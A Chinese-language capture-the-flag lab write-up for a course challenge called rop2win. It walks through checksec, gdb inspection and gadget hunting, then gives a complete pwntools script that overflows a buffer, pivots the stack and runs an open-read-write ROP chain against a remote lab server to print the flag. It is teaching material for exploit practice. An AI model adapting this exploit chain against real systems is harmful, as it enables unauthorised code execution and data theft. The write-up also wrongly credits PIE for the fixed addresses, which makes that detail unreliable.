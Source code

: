 # Lab rop2win

1. 先用 checksec 確認這個程式的保護機制，及嘗試執行程式，稍微看一下他的運作，要輸入 filename、ROP 還有 overflow，這題有 PIE 保護，所以在執行的程式記憶體位置會是固定的，也就是說在 local 端可以拿到 flag，在 server 端也可以拿到 flag。

![截圖 2022-11-29 上午10.10.32.png](Lab%20rop2win%209ac49a359381485894960c5fa7197e97/%25E6%2588%25AA%25E5%259C%2596_2022-11-29_%25E4%25B8%258A%25E5%258D%258810.10.32.png)

![截圖 2022-11-29 上午10.10.48.png](Lab%20rop2win%209ac49a359381485894960c5fa7197e97/%25E6%2588%25AA%25E5%259C%2596_2022-11-29_%25E4%25B8%258A%25E5%258D%258810.10.48.png)

1. 這題題目是 rop2win ，所以知道要用 ROP 去解這題，接下來我將Source code 看完，對 code 的理解上面的 Seccomp 是在撰寫 Seccomp rule，並且 allow open/ read/ wtire/ exit，而這題也因為有 Secccomp 所以不能用 execev(“/bin/sh”, null, null) 這個 sycscall 去執行 bin/sh ，所以只能用它允許的 open、read、write 去讀 flag。

![截圖 2022-11-29 上午10.22.06.png](Lab%20rop2win%209ac49a359381485894960c5fa7197e97/%25E6%2588%25AA%25E5%259C%2596_2022-11-29_%25E4%25B8%258A%25E5%258D%258810.22.06.png)

1. 用 gdb 開啟程式，執行到 0x4018ab <main+310> **call** read 後，可以看到 fn 的位置存在 0x4e3340 ，執行到 **0x4018d8** **<main+355> call** read 後，可以看到 ROP 的位置存在 0x4e3360，然後輸入指令 “x/100gx 0x4e3340 “檢查後也確實是如此。執行到 **0x4018ec** **<main+375>**  **call** printf，可以看到會將給的 overflow input 放在 ROP 這個位置，來執行 ROP。

![截圖 2022-11-29 上午10.13.34.png](Lab%20rop2win%209ac49a359381485894960c5fa7197e97/%25E6%2588%25AA%25E5%259C%2596_2022-11-29_%25E4%25B8%258A%25E5%258D%258810.13.34.png)

![截圖 2022-11-29 上午10.15.09.png](Lab%20rop2win%209ac49a359381485894960c5fa7197e97/%25E6%2588%25AA%25E5%259C%2596_2022-11-29_%25E4%25B8%258A%25E5%258D%258810.15.09.png)

![截圖 2022-11-29 上午10.27.33.png](Lab%20rop2win%209ac49a359381485894960c5fa7197e97/%25E6%2588%25AA%25E5%259C%2596_2022-11-29_%25E4%25B8%258A%25E5%258D%258810.27.33.png)

![截圖 2022-11-29 上午10.16.56.png](Lab%20rop2win%209ac49a359381485894960c5fa7197e97/%25E6%2588%25AA%25E5%259C%2596_2022-11-29_%25E4%25B8%258A%25E5%258D%258810.16.56.png)

1. 接下來，我們要利用 open、read、write 將藏在 “/home/chal/flag” 的 flag 讀出來( 從docker 的file 中可以看到 )， 所以會要寫一個 ROP chain，而我這邊先參考老師上課 demo 的 ROP chain 會失敗，因此我這邊還是自己重新寫一次 ROP chain，ROP chain 的組成方法是先用ROPgadget 去尋找可以利用的  ROPgadget ，而這些 ROPgadget 是要可以用來控制暫存器  rdi rsi rdx 的值 (這個傳遞參數的順序是 calling convention ) 來達到 syscall。

![截圖 2022-11-29 上午10.38.07.png](Lab%20rop2win%209ac49a359381485894960c5fa7197e97/%25E6%2588%25AA%25E5%259C%2596_2022-11-29_%25E4%25B8%258A%25E5%258D%258810.38.07.png)

1. 以下是我寫出 ROP chain 的過程 ( 這邊花了最多時間去理解ROP 跟 如何去組成一個 ROPchain 也有去參考 angelboy 的教學，也學到了三個 syscall 的呼叫方式 ) 
    1. open : open(fn_addr, 0) 因為可以找到 “pop rdi ; ret”、“pop rsi ; ret”、“pop rax ; ret”，所以這幾個 gadget 是可以直接拿來用的，因此可以直接生成 open ( fn_addr , 0 ) 的 syscall，因為 open 只需要傳遞兩個參數，所以有 rdi 跟 rsi 就可以了。
        
        ![截圖 2022-12-01 上午1.18.26.png](Lab%20rop2win%209ac49a359381485894960c5fa7197e97/%25E6%2588%25AA%25E5%259C%2596_2022-12-01_%25E4%25B8%258A%25E5%258D%25881.18.26.png)
        
        ![截圖 2022-12-01 上午1.18.41.png](Lab%20rop2win%209ac49a359381485894960c5fa7197e97/%25E6%2588%25AA%25E5%259C%2596_2022-12-01_%25E4%25B8%258A%25E5%258D%25881.18.41.png)
        
        ![截圖 2022-12-01 上午1.19.03.png](Lab%20rop2win%209ac49a359381485894960c5fa7197e97/%25E6%2588%25AA%25E5%259C%2596_2022-12-01_%25E4%25B8%258A%25E5%258D%25881.19.03.png)
        
        ```
        pop_rdi, fn_addr,
        pop_rsi, 0,
        pop_rax, 2,
        syscall,
        ```
        
    2. read : read(3, fn, 0x30) 因為有三個參數要傳遞，但是無法找到單一的 “pop rdx ; ret”，所以只能找找看其他的 gadget，然後找到剛好有一個pop rdx ; pop rbx ; ret，就直接將它拿來用，所以就可以用它來生成 read 的 syscall 。
        
        ![截圖 2022-12-01 上午1.33.35.png](Lab%20rop2win%209ac49a359381485894960c5fa7197e97/%25E6%2588%25AA%25E5%259C%2596_2022-12-01_%25E4%25B8%258A%25E5%258D%25881.33.35.png)
        
        ```
            pop_rdi, 3,
            pop_rsi, fn_addr,
            pop_rdx_rbx , 0x30, 0,
            pop_rax, 0,
            syscall,
        ```
        
    
    c. write : 然後是 write(1, fn, 0x30) 的 syscall ，這邊的原理跟上面一樣。
    
    ```
        pop_rdi, 1,
    		pop_rsi, fn_addr,
        pop_rdx_rbx , 0x30, 0,
        pop_rax, 1,
        syscall,
    ```
    

1. 最後把新的 ROP chain 組成 payload 送出，就得到FLAG{banana_72b302bf297a228a75730123efef7c41}。
    
    ```python
    #!/usr/bin/python3
    
    from pwn import *
    import sys
    
    context.arch = 'amd64'
    context.terminal = ['tmux', 'splitw', '-h']
    r = remote('edu-ctf.zoolab.org', 10005)
    
    ROP_addr = 0x4e3360
    fn_addr = 0x4e3340
    
    pop_rdi = 0x4038b3 # pop rdi ; ret   
    pop_rsi = 0x402428 # pop rsi ; ret
    pop_rdx = 0x40176f # pop rdx ; ret ?
    pop_rax = 0x45db87 # pop rax ; ret
    syscall = 0x4284b6 # syscall ; ret 
    pop_rax_rdx_rbx = 0x493a2a # pop rdi ; 
    pop_rdx_rbx = 0x493a2b # pop rdx ; pop rbx ; ret ;
    leave = 0x40190c # leave ; ret
    
    #open("/home/chal/flag",0)
    #read(3, fn, 0x30)
    #write(1, fn, 0x30)
    
    #ROP chain
    ROP = flat(
        pop_rdi, fn_addr,
        pop_rsi, 0,
        pop_rax, 2,
        syscall,
    
        pop_rdi, 3,
        pop_rsi, fn_addr,
        pop_rdx_rbx , 0x30, 0,
        pop_rax, 0,
        syscall,
    
        pop_rdi, 1,
        pop_rdx_rbx , 0x30, 0,
        pop_rax, 1,
        syscall,
    )
    
    r.sendafter(b'Give me filename: ', b'/home/chal/flag\x00')
    r.sendafter(b'Give me ROP: ', b'A'*0x8 + ROP)
    r.sendafter(b'Give me overflow: ', b'A'*0x20 + p64(ROP_addr) + p64(leave))
    FLAG = r.recvall()
    print(FLAG)
    ```
    

1. 而理解完 ROPchain 後，其實也可以發現，read / write ，改變的參數只有傳遞的第一個參數，甚至直接 pop rdi, 1, 後再 system 後也可以達到一樣的 syscall，而我這邊也驗證過，確實可以得到一樣的結果。

```python
# read(3, fn, 0x30)
# write(1, fn, 0x30)
```

```python
ROP = flat(
    pop_rdi, fn_addr,
    pop_rsi, 0,
    pop_rax, 2,
    syscall,

    pop_rdi, 3,
    pop_rsi, fn_addr,
    pop_rdx_rbx , 0x30, 0,
    pop_rax, 0,
    syscall,

    pop_rdi, 1,
    pop_rax, 1,
    syscall,
)
```